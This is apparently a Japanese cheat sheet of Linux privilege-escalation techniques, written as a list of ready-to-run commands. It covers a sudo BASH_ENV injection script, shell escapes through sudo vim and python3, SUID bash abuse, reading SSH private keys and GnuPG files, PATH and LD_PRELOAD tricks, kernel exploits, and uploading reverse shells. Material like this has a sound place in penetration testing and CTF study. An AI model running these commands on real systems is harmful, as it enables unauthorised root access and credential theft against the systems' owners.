 # 🛡️ Linux 権限昇格手順まとめ
## 1.Sudo 権限を利用した昇格
### a.実行可能な sudo コマンドを確認

### b.sudo 環境変数汚染（BASH_ENV）
echo 'bash -p' > /tmp/exp.sh
chmod +x /tmp/exp.sh
sudo BASH_ENV=/tmp/exp.sh /usr/bin/systeminfo

### c.環境変数が継承されない場合
sudo -s
または
sudo -i

### d.sudo で実行できるエディタやインタプリタの利用
sudo /usr/bin/vim -c ':!/bin/sh'
sudo /usr/bin/python3 -c 'import os; os.system("/bin/sh")'

## 2.SUID ビット付きファイルの利用
find / -perm -4000 -type f 2>/dev/null
例（bashにSUIDがある場合）:
/tmp/bash -p
whoami

## 3.書き込み可能なファイルやディレクトリの調査
find / -writable -type d 2>/dev/null
find / -writable -type f 2>/dev/null

## 4.Cron ジョブの調査
cat /etc/crontab
ls -la /etc/cron.*
systemctl list-timers --all

## 5.環境変数を悪用した昇格
PATH の改変
LD_PRELOAD や LD_LIBRARY_PATH の利用
特に root で実行されるスクリプトで外部コマンドを呼ぶ場合に有効。

## 6.パスワードや秘密鍵の発見
cat ~/.gnupg/*
cat ~/.ssh/id_rsa

## 7.ローカル脆弱性の利用
カーネルの既知の脆弱性を使う（例: Dirty COW、sudoバグなど）
以下のツールを使うと便利:
searchsploit
linux-exploit-suggester
linpeas.sh

## 8.Webシェルやファイルアップロードを利用した昇格
PHP/Pythonのリバースシェルをアップロード
TTY付きシェルで安定した操作を確保

## 9.その他Tips
### Capability付きファイルの確認
getcap -r / 2>/dev/null
cap_setuid などがついていれば昇格に使える可能性あり。

###TTYを使ったシェルの安定化（Python）
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
